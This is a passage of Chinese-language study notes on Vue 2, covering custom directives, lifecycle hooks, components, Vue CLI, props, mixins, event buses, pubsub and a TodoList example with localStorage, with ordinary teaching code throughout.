    <h2 v-pre>Vue其实很简单</h2>
    <h2 >当前的n值是:{{n}}</h2>
    <button @click="n++">点我n+1</button>
</div>

<script>
    new Vue({
        el:'#root',
        data:{
            n:1
        }
    })
</script>
```

#### 自定义指令

1. 定义语法

   （1）局部指令：

```
new Vue({
	directives:{指令名:配置对象} 
		}) 							
```

或

```
new Vue({
	directives{指令名:回调函数}
	})					
```

​	（2）全局指令：

`Vue.directive(指令名,配置对象)`或`Vue.directive(指令名,回调函数`

2. 配置对象中常用的3个回调：

（1）`bind`：指令与元素成功绑定时调用。

（2）`inserted`：指令所在元素被插入页面时调用。

（3）`update`：指令所在模板结构被重新解析时调用

3. 备注：
   （1）指令定义时不加`v-`，但使用时要加`v-`；

   （2）指令名如果是多个单词，要使用`kebab-case`命名方式，不要用`camelCase`命名。

```html
<!-- 需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。
    需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。
-->

<!-- 准备好一个容器-->
<div id="root">
    <h2>{{name}}</h2>
    <h2>当前的n值是：<span v-text="n"></span></h2>
    <h2>放大10倍后的n值是：<span v-big="n"></span></h2>
    <h2>放大10倍后的n值是：<span v-big-number="n"></span></h2>
    <button @click="n++">点我n+1</button>
    <hr>
    <input type="text" v-fbind:value="n">

</div>

<script>
    // 定义全局指令
    /*Vue.directive('fbind', {
        //指令与元素成功绑定时（一上来）
        bind(element, binding) {
            element.value = binding.value
        },

        // 指令所在元素被插入页面时
        inserted(element, binding) {
            element.focus()
        },

        // 指令所在的模板被重新解析时
        update(element, binding) {
            element.value = binding.value
        }
    })*/

    new Vue({
        el: '#root',
        data: {
            name: 'XDU',
            n: 1
        },
        directives: {

            /*big函数何时会被调用？
            1.指令与元素成功绑定时（一上来）。
            2.指令所在的模板被重新解析时。*/
            big(element, binding) {
                // console.log('big', this)    //注意此处的this是window
                element.innerText = binding.value * 10
            },

            'big-number'(element, binding) {
                element.innerText = binding.value * 10
            },

            fbind: {
                //指令与元素成功绑定时（一上来）
                bind(element, binding) {
                    element.value = binding.value
                },

                // 指令所在元素被插入页面时
                inserted(element, binding) {
                    element.focus()
                },

                // 指令所在的模板被重新解析时
                update(element, binding) {
                    element.value = binding.value
                }
            }
        }
    })
</script>
```

### 1.14 Vue 实例生命周期

生命周期：

1. 又名：生命周期回调函数、生命周期函数、生命周期钩子。
2. 是什么：Vue在关键时刻帮我们调用的一些特殊名称的函数。
3. 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
4. 生命周期函数中的`this`指向是`vm` 或 组件实例对象。


常用的生命周期钩子：

1. `mounted`：发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
2. `beforeDestroy`：清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

关于销毁Vue实例：

1. 销毁后借助Vue开发者工具看不到任何信息。
2. 销毁后自定义事件会失效，但原生DOM事件依然有效。
3. 一般不会在`beforeDestroy`操作数据，因为即便操作数据，也不会再触发更新流程了。

```html
<!-- 准备好一个容器-->
<div id="root">
    <h2 :style="{opacity}">欢迎学习Vue</h2>
    <button @click="opacity = 1">透明度设置为1</button>
    <button @click="stop">点我停止变换</button>
</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            opacity: 1,
        },
        methods: {
            stop() {
                this.$destroy()
            }
        },
        // Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted
        mounted() {
            console.log('mounted', this)
            this.timer = setInterval(() => {
                this.opacity -= 0.01
                if (this.opacity <= 0) this.opacity = 1
            }, 16)
        },
        beforeDestroy () {
            console.log('vm即将驾鹤西游了')
            clearInterval(this.timer)
        }
    })
</script>
```

## 二、Vue 组件化编程

### 2.1 非单文件组件

#### Vue中使用组件的三大步骤

1. 定义组件（创建组件）

   使用`Vue.extend(options)`创建，其中`options`和`new Vue(options)`时传入的那个`options`几乎一样，但也有点区别：

   （1）`el`不要写 ——最终所有的组件都要经过一个`vm`的管理，由`vm`中的`el`决定服务哪个容器。

   （2）`data`必须写成函数—— 避免组件被复用时，数据存在引用关系。

   备注：使用template可以配置组件结构。

2. 注册组件

   （1）局部注册：靠`new Vue`的时候传入`components`选项
   （2）全局注册：靠`Vue.component('组件名',组件)`

3. 使用组件（写组件标签）
   `<school></school>`

```html
<!-- 准备好一个容器-->
<div id="root">
    <hello></hello>
    <h1>{{msg}}</h1>
    <!-- 第三步：编写组件标签 -->
    <school></school>
    <hr>
    <student></student>
    <student></student>
</div>

<div id="root2">
<hello></hello>
</div>

<script>
    // 第一步：创建school组件
    const school = Vue.extend({
        // el:'#root',
        // 组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
        template: `
            <div>
            <h2>学校名称：{{ schoolName }}</h2>
            <h2>学校地址：{{ address }}</h2>
            <button @click="showName">点我提示学校名</button>
            </div>
        `,
        data () {
            return {
                schoolName: 'XDU',
                address: 'Xi\'an',
            }
        },
        methods: {
            showName() {
                alert(this.schoolName)
            }
        }
    })

    // 第一步：创建student组件
    const student = Vue.extend({
        template: `
            <div>
            <h2>学生姓名：{{ studentName }}</h2>
            <h2>学生年龄：{{ age }}</h2>
            </div>
        `,
        data () {
            return {
                studentName: '张三',
                age: 18,
            }
        },
    })

    //第一步：创建hello组件
    const hello = Vue.extend({
        template:`
            <div>
               <h2>你好啊！{{name}}</h2>
            </div>
         `,
        data(){
            return {
                name:'Tom'
            }
        }
    })

    // 第二步：全局注册组件
    Vue.component('hello',hello)

    new Vue({
        el: '#root',
        // 第二步：注册组件（局部注册）
        data: {
            msg: 'Hello',
        },
        components: {
            school,
            student,

        },
    })

    new Vue({
        el:'#root2',
    })
</script>
```

几个注意点：

1. 关于组件名：

   - 一个单词组成：

     （1）第一种写法(首字母小写)：`school`

     （2）第二种写法(首字母大写)：`School`

   - 多个单词组成：

     （1）第一种写法(kebab-case命名)：`my-school`

     （2）第二种写法(CamelCase命名)：`MySchool` (需要Vue脚手架支持)

备注：

（1）组件名尽可能回避HTML中已有的元素名称，例如：`h2`、`H2`都不行。

（2）可以使用`name`配置项指定组件在开发者工具中呈现的名字

2. 关于组件标签:

   - 第一种写法：`<school></school>`

   - 第二种写法：`<school/>`

备注：不用使用脚手架时，`<school/>`会导致后续组件不能渲染

3. 一个简写方式：

`const school = Vue.extend(options)` 可简写为：`const school = options`


#### 关于VueComponent

1. school组件本质是一个名为VueComponent的构造函数，且不是程序员定义的，是`Vue.extend`生成的。
2. 我们只需要写`<school/>`或`<school></school>`，Vue解析时会帮我们创建school组件的实例对象，即Vue帮我们执行的：`new VueComponent(options)`。
3. 特别注意：每次调用`Vue.extend`，返回的都是一个全新的VueComponent！！！！
4. 关于`this`指向：

（1）组件配置中：`data`函数、`methods`中的函数、`watch`中的函数、`computed`中的函数 它们的this均是【VueComponent实例对象】。

（2）`new Vue(options)`配置中：`data`函数、`methods`中的函数、`watch`中的函数、`computed`中的函数 它们的this均是【Vue实例对象】。

5. VueComponent的实例对象，以后简称vc（也可称之为：组件实例对象）。Vue的实例对象，以后简称vm。

> - 一个重要的内置关系：`VueComponent.prototype.__proto__ === Vue.prototype`
> - 为什么要有这个关系：让组件实例对象（vc）可以访问到 Vue原型上的属性、方法。

### 2.2 单文件组件

- School 组件和 Student 组件：

（1） `School.vue`

  ```vue
<template>
  <!-- 组件的结构-->
  <div class="demo">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
    <button @click="showName">点我提示学校名</button>
  </div>
</template>

<script>
// 组件交互相关的代码（数据、方法）
export default {
  name: 'School',
  data () {
    return {
      name: 'XDU',
      address: 'Xi\'an',
    }
  },
  methods: {
    showName () {
      console.log('showName', this)
    },
  },
}

</script>

<style>
/* 组件的样式 */
.demo {
  background-color: #bfa;
}
</style>
  ```

（2）`Student.vue`

```vue
<template>
  <!-- 组件的结构-->
  <div>
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生年龄：{{ age }}</h2>
  </div>
</template>

<script>
// 组件交互相关的代码（数据、方法）
export default {
  name: 'Student',
  data () {
    return {
      name: '张三',
      age: 18,
    }
  },
}

</script>
```

- App 组件引入汇总所有组件

`App.vue`

```vue
<template>
  <div>
    <School></School>
    <Student></Student>
  </div>
</template>

<script>
// 引入组件
import School from './School'
import Student from './Student'

export default {
  name: 'App',
  components: {
    School,
    Student,
  },
}
</script>
```

- `main.js`：入口文件，创建Vue实例

```javascript
import App from './App'

new Vue({
  el: '#root',
  template: `<App></App>`,
  components: {App}
})
```

- `index.html`：创建外部容器，引入`vue.js`和`main.js`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>单文件组件的语法</title>
</head>
<body>
<!-- 准备一个容器 -->
<div id="root"></div>

<script src="../js/vue.js"></script>
<script src="./main.js"></script>
</body>
</html>
```

## 三、使用Vue 脚手架

Vue 脚手架是Vue 官方提供的标准化开发工具（开发平台）。

文档: https://cli.vuejs.org/zh/。

### 3.1 初始化脚手架

安装：

```shell
npm install -g @vue/cli
# OR
yarn global add @vue/cli
```

创建一个项目：

```shell
vue create my-project
# OR
vue ui
```

启动项目
`npm run serve`

#### 脚手架文件结构

```shell
├── node_modules 
├── public
│   ├── favicon.ico: 页签图标
│   └── index.html: 主页面
├── src
│   ├── assets: 存放静态资源
│   │   └── logo.png
│   │── component: 存放组件
│   │   └── HelloWorld.vue
│   │── App.vue: 汇总所有组件
│   │── main.js: 入口文件
├── .gitignore: git版本管制忽略的配置
├── babel.config.js: babel的配置文件
├── package.json: 应用包配置文件 
├── README.md: 应用描述文件
├── package-lock.json：包版本控制文件
```

#### 关于不同版本的Vue

1. vue.js与vue.runtime.xxx.js的区别：
   - vue.js是完整版的Vue，包含：核心功能 + 模板解析器。
   - vue.runtime.xxx.js是运行版的Vue，只包含：核心功能；没有模板解析器。
2. 因为vue.runtime.xxx.js没有模板解析器，所以不能使用template这个配置项，需要使用render函数接收到的createElement函数去指定具体内容。

#### vue.config.js配置文件

1. 使用 `vue inspect > output.js` 可以查看到Vue脚手架的默认配置。
2. 使用 `vue.config.js` 可以对脚手架进行个性化定制，详情见：https://cli.vuejs.org/zh

### 3.2 ref属性与props配置项

#### ref属性

1. 被用来给元素或子组件注册引用信息（id的替代者）

2. 应用在html标签上获取的是真实DOM元素，应用在组件标签上是组件实例对象（vc）

3. 使用方式：

   （1）打标识：```<h1 ref="xxx">.....</h1>``` 或 ```<School ref="xxx"></School>```

   （2）获取：```this.$refs.xxx```

`App.Vue`

```Vue
<template>
  <div>
    <h1 v-text="msg" ref="title"></h1>
    <button @click="showDOM" ref="btn">点我输出上方的DOM元素</button>
    <School ref="sch"/>
  </div>
</template>

<script>
// 引入School组件
import School from '@/components/Student'
export default {
  name: 'App',
  data() {
    return {
      msg: 'Hello Vue!'
    }
  },
  methods: {
    showDOM() {
      console.log(this.$refs.title) //真实DOM元素
      console.log(this.$refs.btn) //真实DOM元素
      console.log(this.$refs.sch) //School组件的实例对象（vc）
    }
  },
  components: {
    School
  }
}
</script>

<style scoped>

</style>
```

#### props配置项

1. 功能：让组件接收外部传过来的数据

2. 传递数据：```<Demo name="xxx"/>```

3. 接收数据：

   1. 第一种方式（只接收）：```props:['name'] ```

   2. 第二种方式（限制类型）：```props:{name:String}```

   3. 第三种方式（限制类型、限制必要性、指定默认值）：

      ```js
      props:{
      	name:{
      	type:String, //类型
      	required:true, //必要性
      	default:'老王' //默认值
      	}
      }
      ```

   > 备注：props是只读的，Vue底层会监测你对props的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请复制props的内容到data中一份，然后去修改data中的数据。

`Student.vue`

```vue
<template>
  <div>
    <h1>{{ msg }}</h1>
    <h2>学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
    <h2>学生年龄：{{ myAge + 1 }}</h2>
    <button @click="updateAge">尝试修改收到的年龄</button>
  </div>
</template>

<script>
export default {
  name: 'Student',
  data () {
    return {
      msg: '我不是学生',
      myAge: this.age
    }
  },
  methods: {
    updateAge() {
      this.myAge++
    }
  },

  // 简单声明接收
  // props: ['name', 'age', 'sex']

  // 接收的同时对数据进行类型限制
  /*props: {
    name: String,
    sex: String,
    age: Number,

  }*/

  // 接收的同时对数据：进行类型限制 + 默认值的指定 + 必要性的限制
  props: {
    name: {
      type: String, // name的类型是字符串
      required: true, // name是必要的
    },
    age: {
      type: Number,
      default: 99,  //默认值
    },
    sex: {
      type: String,
      required: true,
    },
  },
}
</script>
```

`App.Vue`

```vue
<template>
  <div>
    <Student name="李四" sex="女" :age="18"/>
	<hr>
    <Student name="王五" sex="男" :age="20"/>
  </div>
</template>
```

### 3.3 mixin（混入）

1. 功能：可以把多个组件共用的配置提取成一个混入对象

2. 使用方式：

   第一步定义混合：

   ```javascript
   {
       data(){....},
       methods:{....}
       ....
   }
   ```

   第二步使用混入：

   全局混入：`Vue.mixin(xxx)`
   局部混入：`mixins:['xxx']`

> 混入的 `data` 、`methods` 等属性与组件中已经存在的冲突时，以组件中的生效；但混入的生命周期钩子和组件中的钩子同时生效。

`mixin.js`

```js
export const mixin = {
  methods: {
    showName() {
      alert(this.name)
    }
  },
  mounted () {
    console.log('Hello!')
  }
}
```

`Student.vue`

```vue
<template>
  <div>
    <h2 @click="showName">学生姓名：{{ name }}</h2>
    <h2>学生性别：{{ sex }}</h2>
  </div>
</template>

<script>
// 引入一个混合
import {mixin} from '@/mixin'

export default {
  name: 'Student',
  data () {
    return {
      name: '张三',
      sex: '男'
    }
  },
  mixins: [mixin]

}
</script>
```

`School.vue`

```vue
<template>
  <div>
    <h2 @click="showName">学校名称：{{name}}</h2>
    <h2>学校地址：{{address}}</h2>
  </div>
</template>

<script>
// 引入一个混合
import {mixin} from '@/mixin'

export default {
  name: 'School',
  data () {
    return {
      name: 'XDU',
      address: 'Xi\'an'
    }
  },
  mixins: [mixin],
  mounted () {
    console.log('Hello!!!!')
  }

}
</script>
```


### 3.4 插件

1. 功能：用于增强Vue

2. 本质：包含install方法的一个对象，install的第一个参数是Vue，第二个以后的参数是插件使用者传递的数据。

3. 定义插件：

   ```js
   对象.install = function (Vue, options) {
       // 1. 添加全局过滤器
       Vue.filter(....)
   
       // 2. 添加全局指令
       Vue.directive(....)
   
       // 3. 配置全局混入(合)
       Vue.mixin(....)
   
       // 4. 添加实例方法
       Vue.prototype.$myMethod = function () {...}
       Vue.prototype.$myProperty = xxxx
   }
   ```

4. 使用插件：```Vue.use()```

### 3.5 scoped样式

1. 作用：让样式在局部生效，防止冲突。
2. 写法：```<style scoped>```

`School.vue`

```vue
<style scoped>
.demo {
  background-color: #bbffaa;
}
</style>
```

`Student.vue`

```vue
<style scoped lang="less">
.demo {
  background-color: #666;
  .test{
    font-size: 40px;
  }
}
```

> Vue中style支持less语言，通过`lang="less"`属性开启，另外需要通过指令`npm i less-loader@7`单独安装less-loader（注：Vue默认使用4.x版本的webpack，与最新版的less-loader不兼容）。

### 3.6 TodoList案例

#### 组件结构




`npm i nanoid` 安装 nanoid 用于生成唯一id

- `App.vue`

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <MyHeader :addTodo="addTodo"/>
        <MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo"/>
        <MyFooter :todos="todos" :checkAllTodos="checkAllTodos" :clearAllTodo="clearAllTodo"/>
      </div>
    </div>
  </div>
</template>

<script>
import MyHeader from '@/components/MyHeader'
import MyList from '@/components/MyList'
import MyFooter from '@/components/MyFooter'

export default {
  name: 'App',
  components: { MyHeader, MyList, MyFooter },
  data () {
    return {
      todos: [
        { id: '001', title: '抽烟', done: true },
        { id: '002', title: '喝酒', done: false },
        { id: '003', title: '烫头', done: true },
      ],
    }
  },
  methods: {
    // 添加todo
    addTodo (todoObj) {
      this.todos.unshift(todoObj)
    },
    // 修改todo状态
    checkTodo (id) {
      this.todos.forEach(todo => {
        if (todo.id === id) todo.done = !todo.done
      })
    },
    // 删除todo
    deleteTodo (id) {
      this.todos = this.todos.filter(todo => todo.id !== id)
    },
    // 全选 or 取消全选
    checkAllTodos (done) {
      this.todos.forEach(todo => todo.done = done)
    },
    // 清除所有已经完成的todo
    clearAllTodo() {
      this.todos = this.todos.filter(todo => !todo.done)
    }
  },
}
</script>

<style>
/*base*/
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}

.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}


</style>
```

- `MyHeader.vue`

```vue
<template>
  <div class="todo-header">
    <input type="text" placeholder="请输入你的任务名称，按回车键确认" v-model="title" @keyup.enter="add"/>
  </div>
</template>

<script>
import {nanoid} from 'nanoid'
export default {
  name: 'MyHeader',
  props: ['addTodo'],
  data() {
    return {
      title: ''
    }
  },
  methods: {
    add () {
      // 校验数据
      if (!this.title.trim()) return alert('输入不能为空！')
      // 将用户输入包装成一个todo对象
      const todoObj = {id: nanoid(), title: this.title, done: false}
      // 通知 App 组件去添加一个todo对象
      this.addTodo(todoObj)
      // 添加成功后，清空输入框
      this.title = ''
    },
  },
}
</script>

<style scoped>
/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}

.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
}
</style>
```

- `MyItem.vue`

```vue
<template>
  <ul class="todo-main">
    <MyItem
        v-for="todoObj in todos "
        :key="todoObj.id"
        :todo="todoObj"
        :checkTodo="checkTodo"
        :deleteTodo="deleteTodo"
    />
  </ul>

</template>

<script>
import MyItem from '@/components/MyItem'

export default {
  name: 'MyList',
  components: { MyItem },
  props: ['todos', 'checkTodo', 'deleteTodo'],
}
</script>

<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

- `MyItem.vue`

```vue
<template>
  <li>
    <label>
      <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)"/>
      <!-- 使用 v-model 方式也能修改todo.done ,
           但是是通过修改 props 属性实现的（修改对象里的某个值，Vue 监测不到对象改变，故没有报错），
           违反了 props 的只读原则 -->
      <!--<input type="checkbox" v-model="todo.done"/>-->
      <span>{{ todo.title }}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
export default {
  name: 'MyItem',
  // 声明接收todo对象
  props: ['todo', 'checkTodo', 'deleteTodo'],
  methods: {
    handleCheck(id) {
      // 通知 App 组件修改相应的todo状态
      this.checkTodo(id)
    },
    handleDelete(id) {
      if (confirm('确定删除?')) {
        // 通知 App 组件删除响应的todo
        this.deleteTodo(id)
      }
    }


  }
}
</script>

<style scoped>
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}
li:hover{
  background-color: #ddd;
}

li:hover button{
  display: block;
}
</style>
```

- #### `MyFooter.vue`

```vue
<template>
  <div class="todo-footer" v-show="total">
    <label>
<!--      <input type="checkbox" :checked="isAll" @change="checkAll"/>-->
      <input type="checkbox" v-model:checked="isAll"/>
    </label>
    <span>
          <span>已完成 {{ doneTotal }}</span> / 全部 {{ total }}
        </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>

<script>
export default {
  name: 'MyFooter',
  props: ['todos', 'checkAllTodos', 'clearAllTodo'],
  computed: {
    total () {
      return this.todos.length
    },
    doneTotal () {
      return this.todos.reduce(((pre, todo) => pre + (todo.done ? 1 : 0)), 0)
    },
    isAll: {
      get() {
        return this.doneTotal === this.total && this.total > 0
      },
      set(value) {
        this.checkAllTodos(value)
      }
    },
  },
  methods: {
    /*checkAll(e) {
      this.checkAllTodos(e.target.checked)
    },*/
    clearAll() {
      this.clearAllTodo()
    }
  }
}
</script>

<style scoped>
/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}
</style>
```


#### 总结TodoList案例

1. 组件化编码流程：

   （1）拆分静态组件：组件要按照功能点拆分，命名不要与html元素冲突。

   （2）实现动态组件：考虑好数据的存放位置，数据是一个组件在用，还是一些组件在用：

   - 一个组件在用：放在组件自身即可。

   - 一些组件在用：放在他们共同的父组件上（<span style="color:red">状态提升</span>）。	

   （3）实现交互：从绑定事件开始。

2. props适用于：

   （1）父组件 ==> 子组件 通信

   （2）子组件 ==> 父组件 通信（要求父先给子一个函数）

3. 使用`v-model`时要切记：`v-model`绑定的值不能是props传过来的值，因为props是不可以修改的！

4. props传过来的若是对象类型的值，修改对象中的属性时Vue不会报错，但不推荐这样做。

#### webStorage

1. 存储内容大小一般支持5MB左右（不同浏览器可能还不一样）

2. 浏览器端通过 Window.sessionStorage 和 Window.localStorage 属性来实现本地存储机制。

3. 相关API：

   - ```xxxxxStorage.setItem('key', 'value');```
     	该方法接受一个键和值作为参数，会把键值对添加到存储中，如果键名存在，则更新其对应的值。

   - ```xxxxxStorage.getItem('person');```

     	该方法接受一个键名作为参数，返回键名对应的值。

   - ```xxxxxStorage.removeItem('key');```

     	该方法接受一个键名作为参数，并把该键名从存储中删除。

   - ``` xxxxxStorage.clear()```

     	该方法会清空存储中的所有数据。

4. 备注：

   - SessionStorage存储的内容会随着浏览器窗口关闭而消失。
   - LocalStorage存储的内容，需要手动清除才会消失。
   - ```xxxxxStorage.getItem(xxx)```如果xxx对应的value获取不到，那么getItem的返回值是null。
   - ```JSON.parse(null)```的结果依然是null。

#### TodoList 的本地存储

`App.vue`

```vue
<template...>


<script>
import ...

export default {
  name: 'App',
  components: { MyHeader, MyList, MyFooter },
  data () {
    return {
        // 本地数据为空时，赋空数组
      todos: JSON.parse(localStorage.getItem('todos')) || []
    }
  },
  methods: {...},
  watch: {
    todos: {
        // 开启深度监视，用于监视状态的改变
      deep: true,
      handler(value) {
        localStorage.setItem('todos', JSON.stringify(value))
      }
    }
  }
}
</script>

<style...>
```

### 3.7 组件的自定义事件

1. 一种组件间通信的方式，适用于：<strong style="color:red">子组件 ===> 父组件</strong>

2. 使用场景：A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件（<span style="color:red">事件的回调在A中</span>）。

3. 绑定自定义事件：

   1. 第一种方式，在父组件中：```<Demo @atguigu="test"/>```  或 ```<Demo v-on:atguigu="test"/>```

   2. 第二种方式，在父组件中：

      ```js
      <Demo ref="demo"/>
      ......
      mounted(){
         this.$refs.xxx.$on('atguigu',this.test)
      }
      ```

   3. 若想让自定义事件只能触发一次，可以使用```once```修饰符，或```$once```方法。

4. 触发自定义事件：```this.$emit('atguigu',数据)```		

5. 解绑自定义事件```this.$off('atguigu')```

6. 组件上也可以绑定原生DOM事件，需要使用```native```修饰符。

7. 注意：通过```this.$refs.xxx.$on('atguigu',回调)```绑定自定义事件时，回调<span style="color:red">要么配置在methods中</span>，<span style="color:red">要么用箭头函数</span>，否则this指向会出问题！

#### TodoList：使用自定义事件

- `App.vue`

```vue
<template>
 ...
        <MyHeader @addTodo="addTodo"/>
       	...
        <MyFooter :todos="todos" @checkAllTodos="checkAllTodos" @clearAllTodo="clearAllTodo"/>
 ...
</template>
```

- `MyHeader.vue`

```vue
<script>
export default {
...
  methods: {
    add () {
      // 校验数据
      if (!this.title.trim()) return alert('输入不能为空！')
      // 将用户输入包装成一个todo对象
      const todoObj = {id: nanoid(), title: this.title, done: false}
      // 通知 App 组件去添加一个todo对象
      this.$emit('addTodo', todoObj)
      // 添加成功后，清空输入框
      this.title = ''
    },
  },
}
</script>
```

- `MyFooter.vue`

```vue
<script>
export default {
...
  computed: {
   ...
    isAll: {
      get() {
        return this.doneTotal === this.total && this.total > 0
      },
      set(value) {
        // this.checkAllTodos(value)
        this.$emit('checkAllTodos', value)
      }
    },
  },
  methods: {
    clearAll() {
      this.$emit('clearAllTodo')
    }
  }
}
</script>
```

### 3.8 全局事件总线（GlobalEventBus）

1. 一种组件间通信的方式，适用于<span style="color:red">任意组件间通信</span>。

2. 安装全局事件总线：

   ```js
   new Vue({
   	......
   	beforeCreate() {
   		Vue.prototype.$bus = this //安装全局事件总线，$bus就是当前应用的vm
   	},
       ......
   }) 
   ```

3. 使用事件总线：

   - 接收数据：A组件想接收数据，则在A组件中给$bus绑定自定义事件，事件的<span style="color:red">回调留在A组件自身。</span>

     ```js
     methods(){
       demo(data){......}
     }sendStudentName.
     ......
     mounted() {
       this.$bus.$on('xxxx',this.demo)
     }
     ```

   - 提供数据：```this.$bus.$emit('xxxx',数据)```

4. 最好在beforeDestroy钩子中，用$off去解绑<span style="color:red">当前组件所用到的</span>事件。

#### TodoList：使用全局事件总线

- `App.vue`

```vue
<template>
 ...
        <MyList :todos="todos"/>
 ...  
</template>

<script>
...
export default {
  ...
  mounted () {
    this.$bus.$on('checkTodo', this.checkTodo)
    this.$bus.$on('deleteTodo', this.deleteTodo)
  },
  beforeDestroy () {
    this.$bus.$off('checkTodo')
    this.$bus.$off('deleteTodo')
  }
}
</script>
```

- `MyItem.vue`

```vue
<script>

export default {
  ...
  methods: {
    handleCheck(id) {
      // 通知 App 组件修改相应的todo状态
      this.$bus.$emit('checkTodo', id)
    },
    handleDelete(id) {
      if (confirm('确定删除?')) {
        // 通知 App 组件删除响应的todo
        this.$bus.$emit('deleteTodo', id)
      }
    }
  }
}
</script>
```

### 3.9 消息订阅与发布（pubsub）

1. 一种组件间通信的方式，适用于<span style="color:red">任意组件间通信</span>。

2. 使用步骤：

   1. 安装pubsub：```npm i pubsub-js```

   2. 引入: ```import pubsub from 'pubsub-js'```

   3. 接收数据：A组件想接收数据，则在A组件中订阅消息，订阅的<span style="color:red">回调留在A组件自身。</span>

      ```js
      methods(){
        demo(data){......}
      }
      ......
      mounted() {
        this.pid = pubsub.subscribe('xxx',this.demo) //订阅消息
      }
      ```

   4. 提供数据：```pubsub.publish('xxx',数据)```

   5. 最好在beforeDestroy钩子中，用```PubSub.unsubscribe(pid)```去<span style="color:red">取消订阅。</span>

#### TodoList：消息订阅与发布

- `App.vue`

```vue
<script>
import pubsub from 'pubsub-js'
...
export default {
...
  methods: {
   ...
    // 删除todo
    deleteTodo (_, id) {
      this.todos = this.todos.filter(todo => todo.id !== id)
    },
    ...
  },
  ...
  mounted () {
    ...
    this.pubId = pubsub.subscribe('deleteTodo', this.deleteTodo)
  },
  beforeDestroy () {
    ...
    pubsub.unsubscribe(this.pubId)
  }
}
</script>
```

- `MyItem.vue`

```vue
<script>
import pubsub from 'pubsub-js'
export default {
  ...
  methods: {
    handleDelete(id) {
      if (confirm('确定删除?')) {
        pubsub.publish('deleteTodo', id)
      }
    }
  }
}
</script>
```

### 3.10 nextTick

1. 语法：```this.$nextTick(回调函数)```
2. 作用：在下一次 DOM 更新结束后执行其指定的回调。
3. 什么时候用：当改变数据后，要基于更新后的新DOM进行某些操作时，要在nextTick所指定的回调函数中执行。

#### TodoList：编辑功能

- `App.vue`

```vue
<script>
...
export default {
  ...
  methods: {
    ...
    // 更新todo
    updateTodo (id, title) {
      this.todos.forEach(todo => {
        if (todo.id === id) todo.title = title
      })
    },
  },
  ...
  mounted () {
	...
    this.$bus.$on('updateTodo', this.updateTodo)
  },
  beforeDestroy () {
    ...
    this.$bus.$off('updateTodo')
  }
}
```

- `MyItem.vue`

```vue
<template>
  <li>
    ...
      <span v-show="!todo.isEdit">{{ todo.title }}</span>
      <input
          type="text"
          v-show="todo.isEdit"
          :value="todo.title"
          @blur="handleBlur(todo)"
          ref="inputTitle"
      >
    </label>
   ...
    <button class="btn btn-edit" @click="handleEdit(todo)" v-show="!todo.isEdit">编辑</button>
  </li>
</template>

<script>
...
export default {
  ...
  methods: {
   ...
    // 追加或修改 isEdit 属性，使todo处于编辑状态
    handleEdit(todo) {
      if (todo.hasOwnProperty('isEdit')) {
        todo.isEdit = true
      } else {
        this.$set(todo, 'isEdit', true)
      }
      this.$nextTick(function () {
        this.$refs.inputTitle.focus()
      })
    },
    // 失去焦点回调，执行编辑逻辑
    handleBlur(todo) {
      todo.isEdit = false
      if (!this.$refs.inputTitle.value.trim()) return alert('输入不能为空')
      this.$bus.$emit('updateTodo', todo.id, this.$refs.inputTitle.value)
    }
  }
}
</script>
```


### 3.11 Vue封装的过度与动画

1. 作用：在插入、更新或移除 DOM元素时，在合适的时候给元素添加样式类名。
2. 图示：


